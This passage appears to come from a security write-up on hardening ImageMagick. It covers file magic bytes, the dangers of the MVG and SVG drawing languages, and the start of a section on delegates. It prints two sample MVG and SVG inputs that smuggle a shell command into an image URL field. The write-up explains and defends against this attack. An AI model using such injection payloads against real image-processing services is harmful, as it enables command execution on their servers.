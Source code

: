 The first few bytes of a file can often used be used to identify the type of file it represents. Some examples are *tiff* images which start with the hex bytes `49 49 2A 00`, and *jpeg* images which start with `FF D8`. @wikipedia has decent list of the magic bytes for most common file types, in both little and big endian format.




## Coders policy



## The SVG and MVG file formats (micro languages)

Perhaps the most dangerous aspect of ImageMagick lies in its implementation of micro languages (DSL's) for the Scalable Vector Graphic (the W3C standardised vector format) and its own Magick Vector Graphics (MVG) specification. These specifications, whilst powerful, bring with them a insane amount of complexity, and potential specification misinterpretion and security vulnerabilities in their implementations.

> The Magick Vector Graphics (MVG) specification is a modularized language for describing two-dimensional vector and mixed vector/raster graphics in ImageMagick. You can use the language to draw from the command line, from an MVG file, from an SVG -- Scalable Vector Graphics file or from one of the ImageMagick program interfaces.


The following example MVG command will render an arc:

    convert -size 100x60 canvas:skyblue -fill white -stroke black \
      -draw "path 'M 30,40  A 30,20  20  0,0 70,20 A 30,20  20  1,0 30,40 Z '" \
      arc.png

A more malicous varient of MVG that injects some extra shell:

    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://example.com/image.jpg";|ls "-la)'
    pop graphic-context


Similarly SVG's are just as dangerous:

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd";>
<svg width="640px" height="480px" version="1.1" xmlns="http://www.w3.org/2000/svg"; xmlns:xlink="http://www.w3.org/1999/xlink";>
<image xlink:href="https://example.com/image.jpg&quot;|ls &quot;-la" x="0" y="0" height="640px" width="480px"/>
</svg>
```

## Delegates

ImageMagick supports translating image data from a variety of sources and formats. This is implemented in a flexible "pluggable" manner through the concept of a *delegate*.  Three kinds of delegates are catered for (as documented in `delegates.xml` which ships with ImageMagick):
